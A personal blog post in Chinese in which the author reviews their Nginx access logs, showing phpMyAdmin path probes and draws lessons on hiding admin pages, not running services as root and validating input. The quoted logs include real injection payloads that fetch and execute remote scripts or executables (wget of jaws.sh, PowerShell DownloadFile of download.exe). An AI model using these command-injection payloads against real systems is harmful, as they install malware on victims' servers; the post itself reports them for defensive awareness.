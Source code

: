 ```json lw-blog-meta
{"Title":"读Nginx日志有感","Date":"2019-07-18","Brev":"【网络安全真的很重要】虽然在学习各种框架的时候，都会有五花八门的安全提示，但是我真的从没有认真去考虑过安全问题。这几天看了看自己Nginx服务器的日志，感觉有点后怕。","Tags":["Web"]}
```



## 还好我没有学PHP

肉眼所见，几乎全部都是针对`php`的攻击，主要分两种：

### 探测漏洞文件

可以看到从某个ip发来了无数个请求，请求各种看起来会很常见的php文件，像这样：

```shell
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMyAdmina/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMydmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMyAdmins/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:56 +0000] "GET /phpMyAdmin._/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpMyAdmin._2/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpmyadmin2222/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpmyadmin3333/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /php2MyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /phpiMyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /phpNyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
```

主要思路就是瞎猫碰死耗子，看看能不能蒙出你的管理页面（或者数据库之类的脚本），如果真的有的话，估计还有后续手段。

然后我们查一下这个ip地址，显示的信息是supercloud.cc（香港 环球全域电讯）的机房，
那估计是黑客在这里租了一个服务器作为跳板进行攻击了。

**收获：隐藏好你的管理页面，最好不要对外公开（或者限定ip访问）。**

### 注入脚本攻击

还可以看到有些请求是在url中附带了脚本命令，像这样：

```shell
89.248.174.198 - - [17/Jul/2019:23:56:44 +0000] "GET /shell?cd+/tmp;wget+http:/\x5C/89.248.174.198/jaws.sh+-O+-+>smoke.sh;chmod+777+smoke.sh;sh+smoke.sh HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36" "-"

49.234.49.224 - - [17/Jul/2019:19:53:26 +0000] "GET /public/hydra.php?xcmd=cmd.exe%20/c%20powershell%20(new-object%20System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe');start%20%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe HTTP/1.1" 404 555 "http://49.234.46.113:80/public/hydra.php?xcmd=cmd.exe /c powershell (new-object System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe');start %SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe" "Mozilla/4.0 (compatible; MSIE 9.0; Windows NT 6.1)" "-"

82.117.191.2 - - [17/Jul/2019:16:44:21 +0000] "GET /webadmin/script?command=|busybox HTTP/1.1" 400 157 "-" "Mozilla/5.0" "-"
```

主要思路就是，看能不能通过你的web服务，在你的主机上执行指定的命令。例如`chmod+777+smoke.sh`，
`wget+http:/\x5C/89.248.174.198/jaws.sh`，`DownloadFile('http://fid.hognoob.se/download.exe'`
这种，就算是外行也能感觉到很危险吧。

**收获：不要使用`root`权限用户运行web服务；无论何时，必须对用户提交的任何数据进行检查。**

这让我想起了`uWSGI`日志中的警告：

```text
uWSGI running as root, you can use --uid/--gid/--chroot options
*** WARNING: you are running uWSGI as root !!! (use the --uid flag) ***
```

有点不寒而栗的感觉。看来以后还是要乖乖听取前人的话才是。

## Good News

但在Internet上也不全是坏事。

我也看到了来自百度的问候：

```shell
123.125.67.156 - - [18/Jul/2019:02:50:16 +0000] "GET /robots.txt HTTP/1.1" 404 555 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.93 Safari/537.36" "-"

220.181.108.153 - - [18/Jul/2019:02:53:57 +0000] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)" "-"
```

非常友善地自报家门，甚至还会敲敲门（robot.txt）。

这也提醒了我，我还没设置`robot.txt`文件呢。不过我这也没什么秘密，直接建立一个空文件就好了。
详情参考[解释](https://www.robotstxt.org/robotstxt.html)。

## 小结

放眼望去基本都是针对`php`的攻击（没办法，谁让你这个`/php?xxxxx`是如此地个性呢）。
看完之后甚至想笑——还好我没学php。

当然，也有一些针对nginx的，还有一些看不出手段，但是也是通过脚本注入的形式来控制你的服务器。

相应的我觉得也有办法，使用虚拟机/容器技术，刚好就可以很大程度上的减少这类攻击带来的损失。

不过最好的还是要防患于未然了！

## 后记 （2020-05-27）

现在回头来看，这些所谓的”攻击“其实**可能**是云服务商自带的一些漏洞扫描，主要是扫描一些常见的低级错误。不用过于大惊小怪。不过谨慎些总是好的。
